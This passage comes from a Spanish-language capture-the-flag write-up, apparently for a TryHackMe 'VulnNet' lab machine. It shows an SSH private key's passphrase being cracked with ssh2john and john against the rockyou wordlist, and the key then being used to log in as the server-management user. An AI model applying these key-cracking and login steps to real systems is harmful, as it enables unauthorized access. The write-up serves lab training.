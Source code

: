 ```bash
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----" > id_rsa_to_crack
```
Usamos **ssh2john**

```bash
~$>./ssh2john.py id_rsa_to_crack > id_rsa
```
Y despues **john** para romperla

```bash
~$> john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa
```
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
o<***CENSORED***>c     (id_rsa)
1g 0:00:00:13 DONE (2021-08-31 03:40) 0.07570g/s 1085Kp/s 1085Kc/s 1085KC/sa6_123..*7¡Vamos!
Session completed
```
Ahora le asignamos el privilegio ```600``` a ```id_rsa``` para que no nos de problemas al momento de usarla

```bash
~$> chmod 600 id_rsa
```
Y la usamos para conectarnos por **ssh** como el usuario **server-management**

```bash
~$> ssh -i id_rsa server-management@vulnnet.thm
Enter passphrase for key 'id_rsa':
```
```bash
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-134-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

560 packages can be updated.
359 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

server-management@vulnnet:~$ whoami
```